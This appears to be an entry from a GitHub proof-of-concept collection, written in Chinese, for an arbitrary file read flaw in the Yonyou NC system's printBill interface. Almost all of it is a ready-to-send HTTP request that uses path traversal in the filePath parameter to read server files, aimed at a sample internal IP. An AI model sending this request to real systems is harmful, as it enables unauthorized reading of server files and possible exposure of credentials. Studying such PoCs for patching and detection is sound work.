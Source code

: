 ## 用友NC系统printBill接口存在任意文件读取漏洞

## poc
```
GET /portal/pt/printpdf/printBill?pageId=login&filePath=../../startup.bat HTTP/1.1
Host: 192.168.63.129:8088
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

```

![image](https://github.com/wy876/POC/assets/139549762/af404736-3588-4d7c-a76e-d781fb1d1251)


